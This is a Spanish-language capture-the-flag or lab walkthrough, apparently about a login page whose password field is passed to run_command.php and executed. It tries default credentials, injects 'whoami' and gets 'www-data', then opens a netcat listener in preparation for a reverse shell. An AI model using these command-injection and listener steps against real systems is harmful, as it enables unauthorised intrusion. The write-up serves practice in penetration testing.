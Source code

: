 Donde si probamos contrasenas tipicas, no reporta nada
```bash
admin: amdin
root: root
administrator: administrator
```

Si revisamos el codigo fuente del login vemos lo siguiente:
```js
<script>
document.getElementById("loginForm").addEventListener("submit", function(event) {
    event.preventDefault(); // Evitar que el formulario se envíe de forma predeterminada

    var username = document.getElementById("username").value;
    var password = document.getElementById("password").value;

    // Ejecutar el comando proporcionado como contraseña
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState == 4 && xhr.status == 200) {
            document.getElementById("result").innerHTML = xhr.responseText; // Mostrar el resultado en el div result
        }
    };
    xhr.open("GET", "run_command.php?username=" + encodeURIComponent(username) + "&password=" + encodeURIComponent(password), true);
    xhr.send();
    
    // Limpiar los campos después de mostrar el mensaje de alerta
    document.getElementById("username").value = "";
    document.getElementById("password").value = "";
});
</script>
```
### Ejecucion del Ataque
Detectamos que no realiza niguna validacion, respecto a inyeccion de comandos, por lo cual podemos aprovecharnos de esto para en el campo de password, ejecutar comandos:
```bash
# Comandos para explotación
username: admin
password: whoami
```

Ahora vemos que en la respuesta:
```bash
www-data
```
### Intrusion
Tenemos ejecucion remota de comandos,Ahora nos ponemos en modo escucha
```bash
nc -nlvp 443
```
